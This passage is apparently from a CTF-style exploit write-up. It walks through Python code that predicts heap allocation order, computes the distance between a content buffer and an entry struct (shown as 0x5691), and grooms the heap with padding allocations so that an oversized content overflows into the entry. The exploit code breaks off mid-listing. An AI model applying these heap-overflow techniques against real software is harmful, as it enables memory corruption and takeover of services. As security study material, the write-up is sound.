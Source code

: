 The great thing about this is that we can do it even without sending anything to the server. I wrote a quick and dirty function that would find the index content malloc followed by an entry malloc.

```python
def check():
  i = 0
  seen = {}
  for m in overlapping:
    if m not in seen:
      seen[m] = i
    elif allocated[i][1] == "content" and allocated[seen[m]][1] == "entry":
      return (i, seen[m])
    elif allocated[i][1] == "entry" and allocated[seen[m]][1] == "content":
      return (seen[m], i)
    i += 1
  return None

while not check():
  rand("entry")
  rand("content")

content, entry = check()

if allocated[content][0] > allocated[entry][0]:
  print "err content after entry"
  return

print "content {}: 0x{:x} - {}".format(content, allocated[content][0], allocated[content][1])
print "entry {}: 0x{:x} - {}".format(entry, allocated[entry][0], allocated[entry][1])

```

So now we have the heap address (and the index when they will be created) for an entry and content, and can caculate the distance between them so we know exactly how far to overflow.

```bash
dist 0x5691
168 entry 0x413274e6
43 content 0x41321e55
```

We then check which entry comes first and create the corresponsing entry struct to overwrite, and the content that will overwrite it, making sure to use the full filesize for the content so that malloc isn't called again when we update it.

```python
entryNum = (entry - 6)/2
contentNum = (content - 6)/2

overwriteSize = dist + 48

if contentNum < entryNum:
  for i in range(contentNum):
    put("padding", "padding" + str(i))
    rm("padding")

  put("content", "A" * overwriteSize)

  for i in range(contentNum + 1, entryNum):
    put("padding", "padding")
    rm("padding")

  put("entry", "overwrite")

else:
  for i in range(entryNum):
    put("padding", "padding")
```